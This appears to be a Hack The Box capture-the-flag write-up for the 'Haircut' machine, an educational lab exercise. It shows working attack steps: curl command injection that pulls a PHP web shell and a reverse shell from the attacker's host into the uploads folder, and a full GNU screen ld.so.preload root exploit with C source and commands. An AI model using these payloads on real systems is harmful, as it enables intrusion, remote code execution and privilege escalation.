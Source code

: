
![logo](/logo.png)

# [Haircut- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 26 May 2017 as the eight machine on HTB,Haircut created by [r00tkie](https://app.hackthebox.com/users/462) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/haircut 10.10.10.24
```

###### Output 

![](/Linux/Linux-Medium/Haircut/Screenshoots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/haircut 10.10.10.24                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 04:52 EAT
Nmap scan report for 10.10.10.24
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.78 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `ngix 1.10.0`. 

port[22]-ssh
port[80]-nginx

when we naviagate to [http://10.10.10.24](http://10.10.10.24)  we find a page which seem to be a haircut website

![](/Linux/Linux-Medium/Haircut/Screenshoots/haircut.png)

so lets do a `gobuster` so that we can enumerate active directory

```sh
gobuster dir --url http://10.10.10.24 --wordlist
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t
50
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/gobuster.png)

We find an `/uploads/` directory, as well as an `exposed.php` endpoint.Lets open the the php file 

![](/Linux/Linux-Medium/Haircut/Screenshoots/exposed.png)

The `exposed.php` endpoint accepts a URL and appears to send a request to it

# Exploitation

We set up a listener with netcat to inspect the raw request

```sh
nc -nlvp 8000
```

We then send a request to our machine's IP via the web application

```sh
http://10.10.14.70:8000
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/test.png)

We can see the curl User-Agent header, indicating that the server likely uses the command-line
utility cURL to make the request. This opens up the target to command injection.
If our input is passed directly to the command, we might be able to append the -o flag to save
the curl output to a file. More specifically, since we can access the `/uploads/` directory on the
web server, we could upload a web shell there and obtain remote code execution.
We first write a PHP web shell into a file:

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/shell.png)

Finally, we use the following payload to inject the flag and save the file to the uploads directory

```sh
http://10.10.14.15:8000/shell.php -o uploads/shell.php
```

so when we enter this and hit `Go` we can see that its pulling the shell that i just created

![](/Linux/Linux-Medium/Haircut/Screenshoots/http.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/upload.png)

when we access the shell from the upload folder we can be able to see that we can access `www`

![](/Linux/Linux-Medium/Haircut/Screenshoots/www.png)

We can leverage this to an interactive shell by using a pre-made [PHP reverse shell ](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  script.We change the $ip and $port parameters and proceed to upload the script in the same fashion
as before.

so lets go and upload this interactive shell

```sh
http://10.10.14.15:8000/php-reverse-shell.php -o uploads/php-reverse-shell.php
```

we can see that the file has been uploaded so lets execute it to get shell

![](/Linux/Linux-Medium/Haircut/Screenshoots/exploit.png)

![](/Linux/Linux-Medium/Haircut/Screenshoots/revershell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

we can now get the user flag

![](/Linux/Linux-Medium/Haircut/Screenshoots/user.png)

# Privillage Escalation

We run the `LinEnum`  to see what might be vulnerable 

![](/Linux/Linux-Medium/Haircut/Screenshoots/LinEnum.png)


![](/Linux/Linux-Medium/Haircut/Screenshoots/screen.png)

Researching this version leads us to [Exploit-DB](https://www.exploit-db.com/exploits/41154), where there is a public exploit for this tool.We will run the script's steps manually, to better understand the vulnerability and resolve any
errors that might arise. We will use /tmp for our exploit-related files

We start by creating the libhax.c file on the target machine, by running this command:

```sh
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
chown("/tmp/rootshell", 0, 0);
chmod("/tmp/rootshell", 04755);
unlink("/etc/ld.so.preload");
printf("[+] done!\n");
}
EOF
```

```sh
export PATH=/usr/bin:$PATH
```

ext, we try compiling it with gcc :

```sh
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

We re-run the gcc command, which results in a warning, but successfully compiles the shared
object

![](/Linux/Linux-Medium/Haircut/Screenshoots/libhax.png)

Next, we save the rootshell.c file:

```sh
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
setuid(0);
setgid(0);
seteuid(0);
setegid(0);
execvp("/bin/sh", NULL, NULL);
}
EOF
```

```sh
gcc -o /tmp/rootshell /tmp/rootshell.c
```

![](/Linux/Linux-Medium/Haircut/Screenshoots/rootshell.png)

```sh
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

After running the command sequence, we find ourselves in a shell as root :

![](/Linux/Linux-Medium/Haircut/Screenshoots/etc.png)

Then we get root `flag.txt`  

![](/Linux/Linux-Medium/Haircut/Screenshoots/root.png)


	-------------------------END successful attack @lesley------------